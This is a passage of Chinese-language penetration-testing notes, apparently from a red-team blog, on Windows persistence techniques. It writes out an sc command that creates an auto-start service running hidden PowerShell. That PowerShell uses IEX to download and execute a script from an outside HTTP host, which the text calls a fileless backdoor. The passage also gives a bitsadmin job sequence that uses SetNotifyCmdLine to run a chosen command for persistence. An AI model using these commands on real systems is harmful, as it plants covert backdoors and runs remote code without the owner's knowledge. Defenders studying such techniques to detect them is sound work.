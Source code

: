 删除服务:

```
sc delete "SD"
```

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

```
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name        
```

但是！不是所有程序都可以作为服务的方式运行，因为作为服务运行需要能返回运行情况等信息，所以有的程序添加后会出现以下提示：
Windows无法启动 XXX 服务（位于 本地计算机上）。错误1053:服务没有及时响应启动或者控制请求。

可以参考http://www.x2009.net/articles/create-a-windows-service-methods.html#/

# bitadmin

Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

可以通过从“ bitsadmin ”实用程序执行以下命令来实现持久性。

1. 在创建参数需要作业的名称

2. 该addfile需要文件的远程位置和本地路径（这里我都用的本地地址）

3. 该SetNotifyCmdLine将执行的命令

4. 所述SetMinRetryDelay定义设置 BITS 作业的最小重试延迟为 60 秒

5. 该简历参数将运行位工作。

   ```
   bitsadmin /create test
   bitsadmin /addfile test c:\windows\system32\calc.exe c:\Users\DawnT0wn\Desktop\calc.exe
   bitsadmin /SetNotifyCmdLine test cmd.exe "cmd.exe /c calc.exe"
   bitsadmin /SetMinRetryDelay "test" 60 
   bitsadmin /resume test
   ```

![image-20240410145600373](images/27.png)
